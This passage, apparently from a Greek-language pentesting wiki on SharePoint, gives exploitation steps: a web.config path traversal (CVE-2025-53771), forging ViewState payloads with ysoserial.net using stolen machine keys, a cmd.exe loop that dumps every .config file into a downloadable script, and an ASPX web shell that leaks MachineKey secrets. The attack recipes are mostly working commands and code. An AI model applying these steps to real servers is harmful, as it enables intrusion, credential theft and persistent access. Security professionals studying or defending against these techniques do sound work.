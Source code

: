 Αν η υπογραφή είναι ενεργοποιημένη, κλέψτε το **ValidationKey/DecryptionKey** από οποιοδήποτε `web.config` (βλ. 2.4) και πλαστογραφήστε το payload με *ysoserial.net* ή *ysodom*:
```
ysoserial.exe -g TypeConfuseDelegate -f Json.Net -o raw -c "cmd /c whoami" |
ViewStateGenerator.exe --validation-key <hex> --decryption-key <hex> -o payload.txt
```
Για μια λεπτομερή εξήγηση σχετικά με την κακή χρήση του ASP.NET ViewState διαβάστε:

{{#ref}}
../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md
{{#endref}}

### 2.4 CVE-2025-53771 – Διαδρομή Traversal / Αποκάλυψη web.config

Η αποστολή ενός κατασκευασμένου παραμέτρου `Source` στο `ToolPane.aspx` (π.χ. `../../../../web.config`) επιστρέφει το στοχευμένο αρχείο, επιτρέποντας τη διαρροή:

* `<machineKey validationKey="…" decryptionKey="…">`  ➜ κατασκευή ViewState / ASPXAUTH cookies
* συμβολοσειρές σύνδεσης & μυστικά.

## 3. Συνταγές μετά την εκμετάλλευση που παρατηρήθηκαν στην άγρια φύση

### 3.1 Εξαγωγή κάθε αρχείου *.config* (παραλλαγή-1)
```
cmd.exe /c for /R C:\inetpub\wwwroot %i in (*.config) do @type "%i" >> "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\debug_dev.js"
```
Το αποτέλεσμα του `debug_dev.js` μπορεί να κατέβει ανώνυμα και περιέχει **όλες** τις ευαίσθητες ρυθμίσεις.

### 3.2 Αναπτύξτε ένα ASPX web shell κωδικοποιημένο σε Base64 (παραλλαγή-2)
```
powershell.exe -EncodedCommand <base64>
```
Παράδειγμα αποκωδικοποιημένου payload (συμπτυγμένο):
```csharp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Security.Cryptography" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e){
Response.Write(MachineKey.ValidationKey);
// echo secrets or invoke cmd
}
</script>
```
Γραμμένο σε:
```
C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx
```
The shell exposes endpoints to **read / rotate machine keys** which allows forging ViewState and ASPXAUTH cookies across the farm.

